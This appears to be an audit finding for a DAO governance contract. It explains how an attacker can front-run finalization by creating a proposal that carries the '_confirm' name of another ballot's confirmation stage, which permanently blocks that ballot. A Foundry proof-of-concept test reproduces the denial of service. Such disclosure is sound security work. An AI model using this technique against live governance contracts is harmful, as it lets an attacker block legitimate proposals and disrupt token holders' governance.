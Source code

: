  1. `Alice` calls `proposeSetContractAddress()` with contractName parameter as `priceFeed1` (creating a proposal to change the contract for the 1st price feed)
 2. The proposal gets enough votes and is ready to be finalized (the 1st stage) and enter it's 2nd stage (the DAO creating a secondary confirmation proposal)
 3. `Bob` decides to act maliciously and block Alice's proposal from reaching the 2nd stage and eventually being executed. How:
 
 * Just before Alice calls `DAO.finalizeBallot()` Bob calls `Proposals.proposeSetContractAddress()` with contractName as `priceFeed1_confirm` (the name that the DAO will set for Alice secondary ballot)
 
 4. Alice calls `finalizeBallot()` but it reverts. Why:
 
 * The creation of the secondary ballot with name `priceFeed1_confirm` fails the unique name checks, because Bob created another proposal with that name.
 
 You can add the following test to `DAO.t.sol` and run `forge test --rpc-url "https://rpc.sepolia.org/" --contracts src/dao/tests/Dao.t.sol --mt testBlockSetContractFinalization`
 
 ```solidity
     function testBlockSetContractFinalization() public {
         // transfer bob SALT
         vm.prank(DEPLOYER);
         salt.transfer(bob, 5000000 ether);
 
         // Alice creates a proposal to set contract
         vm.startPrank(alice);
         staking.stakeSALT(5000000 ether);
         uint256 ballotID = proposals.proposeSetContractAddress(
             "priceFeed1",
             address(0x1231236),
             "description"
         );
 
         // Proposal gets enough votes and is ready to be finalized
         proposals.castVote(ballotID, Vote.YES);
         // Increase block time to finalize the ballot
         vm.warp(block.timestamp + 11 days);
 
         vm.stopPrank();
 
         // Bob create a new proposal before finalization
         // with Alice ballot contractName + _confirm
         vm.startPrank(bob);
         salt.approve(address(staking), type(uint256).max);
         staking.stakeSALT(5000000 ether);
         proposals.proposeSetContractAddress(
             string.concat("priceFeed1", "_confirm"),
             address(0x1231237),
             "description"
         );
         vm.stopPrank();
 
         // The confirmation ballot will fail to be created, because bob blocked it
         vm.startPrank(alice);
         vm.expectRevert(
             "Cannot create a proposal similar to a ballot that is still open"
         );
         dao.finalizeBallot(ballotID);
         vm.stopPrank();
     }
 ```
 